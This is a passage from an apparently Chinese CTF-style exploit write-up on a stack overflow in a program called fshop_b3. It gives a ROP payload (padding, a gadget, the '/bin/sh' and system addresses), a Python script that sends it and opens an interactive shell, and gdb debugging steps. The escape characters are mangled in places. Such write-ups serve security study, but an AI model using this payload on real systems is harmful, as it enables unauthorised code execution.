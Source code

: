 使用usr_name来进行栈溢出，0xA0 = 160<br>
构造的payload如下

```
######################
#      'A'*160       #          //padding
######################
#      'A'*8         #          //old rbp
######################
# 0x0000000000401bd3 #  ret     //gadget
######################
# 0x00007ffff70f6d57 #  pop rdi //Addr '/bin/sh'
######################
# 0x00007ffff6faf390 #  ret     //Addr system
######################

bHex1 = b'x41'*168 + 
        b'xd3x1Bx40x00x00x00x00x00' 
        b'x57x6dx0fxf7xffx7fx00x00' 
        b'x90xf3xfaxf6xffx7fx00x00' 
        b'x0Dx0A'
```

#### <a class="reference-link" name="&lt;5&gt;%E8%A7%A6%E5%8F%91%E6%BC%8F%E6%B4%9E"></a>&lt;5&gt;触发漏洞

先选择0，登录管理员，出现输入usr name后，将我们的payload传入<br>[![](https://p5.ssl.qhimg.com/t019dbfdb2035e31803.png)](https://p5.ssl.qhimg.com/t019dbfdb2035e31803.png)<br>
之后需要main函数返回才能触发漏洞，所以再输入5，返回触发漏洞。<br>[![](https://p3.ssl.qhimg.com/t01302c65e41ac94c85.png)](https://p3.ssl.qhimg.com/t01302c65e41ac94c85.png)

```
sendData('0n')         # login as admin
sendBin(bHex1)          # usr name
sendData('123n')       # Password
sendData('5n')         # pay&amp;exit

while(1):
    command = input('shell&gt;')
    sendData(command + 'n')
```

gdb动态调试过程：<br>
Attach上创建的fshop_b3的进程，下2个断点。0x400DDA是在输入usr_name前的断点，0x401813是main函数返回前的断点。<br>[![](https://p1.ssl.qhimg.com/t01fedda989cf59032b.png)](https://p1.ssl.qhimg.com/t01fedda989cf59032b.png)

在输入usr_name前栈的情况：<br>[![](https://p2.ssl.qhimg.com/t017d84bfa0d77084d6.png)](https://p2.ssl.qhimg.com/t017d84bfa0d77084d6.png)

在输入usr_name后栈被payload覆盖的情况：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01fa5d1c3c39d2fcd7.png)

在0x401813断点，main函数返回前：<br>[![](https://p2.ssl.qhimg.com/t0169016ef810f17a3c.png)](https://p2.ssl.qhimg.com/t0169016ef810f17a3c.png)<br>
通过ROP控制rdi寄存器并跳入system：<br>[![](https://p5.ssl.qhimg.com/t0161fb76f001943346.png)](https://p5.ssl.qhimg.com/t0161fb76f001943346.png)
